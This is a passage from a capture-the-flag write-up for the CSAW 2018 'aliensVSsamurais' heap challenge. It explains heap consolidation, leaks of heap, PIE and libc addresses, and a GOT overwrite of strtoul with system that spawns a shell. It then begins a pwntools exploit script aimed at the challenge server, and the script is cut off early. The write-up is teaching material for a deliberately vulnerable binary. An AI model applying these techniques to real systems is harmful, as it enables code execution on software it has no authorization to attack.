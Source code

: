 Next we will need to free chunks `5` & `6`, the reason for this being is that if we don't free these chunks, it will stop our heap consolidation from going where we need it to:

```
chunk 5:	(freed) 248 bytes	chunk 6:	(freed) 0x20 bytes
chunk 13:	248 bytes	chunk 14:	0x20 bytes
chunk 9:	248 bytes	chunk 10:	0x20 bytes
chunl 11:	16 bytes	chunk 12:	0x20 bytes
```

Now that the heap consolidation is setup, we can trigger it by freeing chunk `9`:

```
heap consolidated past chunks 13 & 14
chunk 13:	248 bytes	chunk 14:	0x20 bytes
chunk 9:	(freed) 248 bytes	chunk 10: (freed)	0x20 bytes
chunl 11:	16 bytes	chunk 12:	0x20 bytes
```

Next we will allocate another `248` byte chunk. This will place the fwd pointer (which points to a heap address) where the data section of chunk `13` is, which will allow us to leak the libc address by renaming the fifth alien (chunk `13`):

```
chunk 14:	248 bytes	chunk 15:	0x20 bytes
chunk 13:	248 bytes	chunk 14:	0x20 bytes
chunk 11:	16 bytes	chunk 12:	0x20 bytes
```

With that, we get a heap infoleak.

#### leaking libc, PIE, and rce

Now we already have the ground work done to leak an address that we have a pointer to. We just have to free the chunks `14` and `15`, then fill the space with enough data to place the pointer in the first `0x8` bytes of chunk `13`. We will start with leaking a PIE address. Now we know there are pointers on the heap (the samurai), that point to the bss segment so we can use those. Since their offset from the start of the heap should always be the same, and we have a heap infoleak, we can just place an address to the `heap->bss` ptr where the start of chunk `13` is, then edit it to get an infoleak for PIE.

The process of leaking a libc address will be fairly similar. Using the PIE infoleak, we can calculate the GOT table address for the function `strtoul`, and place it at the start of chunk `13` like we just did. Then we can print the rename alien `5` (just like with the PIE infoleak) and it will give us the libc address of `strtoul`. Except here, we will write to it the address of system. That way when `strtoul` is called, it will really be calling `system`. That way when we get prompted for the next menu option in `hatchery`, we can just pass it the string `/bin/sh`, and it will run `system(/bin/sh)`

## Exploit

Here is the code for our expliot:

```
# This exploit is based off of: https://github.com/sajjadium/ctf-writeups/tree/master/CSAWQuals/2018/alien_invasion

from pwn import *

# Establish the target prcoess, and elfs
#target = process('./aliensVSsamurais', env={"LD_PRELOAD":"./libc-2.23.so"})
#gdb.attach(target)
targetElf = ELF('aliensVSsamurais')
libcfile = ELF('libc-2.23.so')
target = remote('pwn.chal.csaw.io', 9004)

# Establish functions to interact with code
def addSamurai(name):
        print target.recvuntil("Daimyo, nani o shitaidesu ka?\n")
```